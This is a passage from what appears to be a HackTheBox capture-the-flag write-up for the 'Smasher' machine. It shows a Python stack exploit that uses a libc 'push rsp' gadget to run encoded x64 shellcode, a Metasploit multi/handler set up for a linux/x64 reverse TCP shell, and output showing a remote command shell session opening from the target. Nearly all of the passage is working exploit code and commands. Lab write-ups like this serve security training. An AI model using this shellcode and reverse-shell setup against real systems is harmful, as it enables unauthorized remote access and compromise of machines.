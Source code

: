 ```python

#### 2 - Execute shellcode from stack

gadget = libc_addr + push_rsp

buf = ""
buf += padding
buf += struct.pack("<Q",  gadget)
buf += "\x48\x31\xc9\x48\x81\xe9\xef\xff\xff\xff\x48\x8d\x05"
buf += "\xef\xff\xff\xff\x48\xbb\xc7\xa4\xa1\x8a\x02\xe7\x6d"
buf += "\x1b\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += "\x8f\x95\x5e\xe0\x0b\xbf\xf4\xad\xd7\xec\x28\x5c\x4f"
buf += "\xd6\xa4\x71\xe5\xe5\xfb\x38\x05\xe8\x68\x53\x42\x64"
buf += "\xd9\xd8\x68\xed\x2c\x42\x91\xf4\xcb\xa3\x5a\x7e\x07"
buf += "\x19\x98\xce\xa0\xd4\x0d\xe2\x25\x9e\x07\xdc\x9a\xc2"
buf += "\x95\xaf\xd4\x19\xc7\xb5\xfd\x80\x08\xea\x83\x4a\x8f"
buf += "\x2d\x47\xe0\x12\xbd\x07\x31\x9f\xab\xa4\xd3\x4a\x62"
buf += "\xad\x62\xe2\xed\x5e\x43\x76\xff\x3a\x71\xe4\xfc\xcb"
buf += "\x8a\x68\xe2\x25\x92\x20\xec\x90\x7c\x0d\xe2\x34\x42"
buf += "\x98\xec\x24\x4a\x7b\x20\x07\x27\x9f\xce\xa0\xd5\x0d"
buf += "\xe2\x33\x41\xc8\xa1\xe9\x0f\xc2\x9f\x82\xe4\x21\xa4"
buf += "\xa1\x8a\x02\xe7\x6d\x1b"
buf += 'Z' * (1024 - len(buf))
response = exploit(buf)     

```


Before running, remmember to start handler.
```sh
msf > use multi/handler
msf exploit(multi/handler) > set payload linux/x64/shell/reverse_tcp
payload => linux/x64/shell/reverse_tcp
msf exploit(multi/handler) > set LHOST 10.10.13.238
LHOST => 10.10.13.238
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.13.238:4444 
```

And run exploit!

```sh
[badarg:~/ctf/hackthebox/box/Smasher]$ python smasher_reverse_tcp.py 
	read() is at 0x7fd2fce03250
	libc base is at 0x7fd2fcd0c000
```

If you check your multi handler, you will see new session

```sh	
[*] Sending stage (38 bytes) to 10.10.10.89
[*] Command shell session 1 opened (10.10.13.238:4444 -> 10.10.10.89:36424) at 2018-10-01 18:07:20 +0200
```
